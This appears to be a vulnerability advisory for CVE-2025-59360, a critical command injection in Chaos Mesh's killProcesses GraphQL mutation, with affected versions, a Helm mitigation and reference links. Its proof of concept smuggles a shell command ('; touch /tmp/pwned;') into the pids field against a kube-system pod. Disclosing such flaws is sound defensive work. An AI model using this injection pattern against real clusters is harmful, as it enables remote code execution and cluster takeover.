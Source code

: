 ```yaml
---
description: CVE-2025-59360, CRITICAL, OS command injection in Chaos Mesh via the killProcesses mutation
title: Chaos Mesh killProcesses command injection
date_published: "2025-09-15"
last_updated: "2025-09-15"
xray_id: JFSA-2025-001449535
vul_id: CVE-2025-59360
cvss: 9.8
severity: critical
discovered_by: Natan Nehorai
type: vulnerability

---
```


## Summary

OS command injection in Chaos Mesh via the killProcesses mutation

## Component

github.com/chaos-mesh/chaos-mesh

## Affected versions

(,2.7.2]

## Description

The killProcesses mutation in Chaos Controller Manager is vulnerable to OS command injection. In conjunction with CVE-2025-59358, this allows unauthenticated in-cluster attackers to perform remote code execution across the cluster.


## PoC

```shell
{"query": "mutation KillProcessesInPod { 
pod(ns: \"kube-system\", name: \"kube-proxy-9trk4\") { 
killProcesses(pids: [\"1\","; touch /tmp/pwned;"]) { 
pid command } } }
```



## Vulnerability Mitigations

If upgrading Chaos-Mesh to the fixed version is not possible, re-deploy the Helm chart and disable the **chaosctl** tool and port:

```shell
helm install chaos-mesh chaos-mesh/chaos-mesh -n=chaos-mesh --version 2.7.x --set enableCtrlServer=false
```



## References

[Fix PR](https://github.com/chaos-mesh/chaos-mesh/pull/4702)

[JFrog Technical Blog](https://jfrog.com/blog/chaotic-deputy-critical-vulnerabilities-in-chaos-mesh-lead-to-kubernetes-cluster-takeover)

